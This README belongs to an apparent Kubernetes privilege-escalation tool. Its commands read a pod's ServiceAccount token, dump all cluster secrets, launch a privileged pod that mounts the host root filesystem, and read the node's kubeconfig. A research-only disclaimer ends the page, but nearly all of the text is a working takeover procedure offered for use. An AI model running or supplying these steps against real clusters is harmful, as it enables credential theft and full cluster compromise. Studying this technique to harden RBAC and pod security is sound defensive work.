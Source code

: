 ### README

1. **Get excessive privileges ServiceAccount token:**

```bash
# If you're in the pod
cat /var/run/secrets/kubernetes.io/serviceaccount/token
# If you are on the node
kubectl describe secret <serviceaccount-token> # Replace <serviceaccount-token> with the Token name of the ServiceAccount with excessive privileges
```

2. **Example of combining `list secret`s and `create pods` permissions to take over the cluster**

*Note: You need to add the information you want to use in the go code such as token and host first*

```bash
# Get the entire cluster secrets and get a token with create pods privileges.
go run listSecret.go
# Use this token to create a privileged container that mounts the root directory and sets taint tolerance to exclude it from the master node, leaking the kubeconfig configuration file
go run createPod.go
# Access to this privileged container
kubectl exec -it nginx-pod-mount2 -n default -- bash
# View leaked kubeconfig file
cat /host/home/ubunt/.kube/config
```
**IMPORTANT NOTICE:**
This program (or code) is intended for research and study purposes only. Its use for any illegal activity, invasion of privacy or violation of the Terms of Service is prohibited. The author is not responsible for the consequences of any misuse of this project.

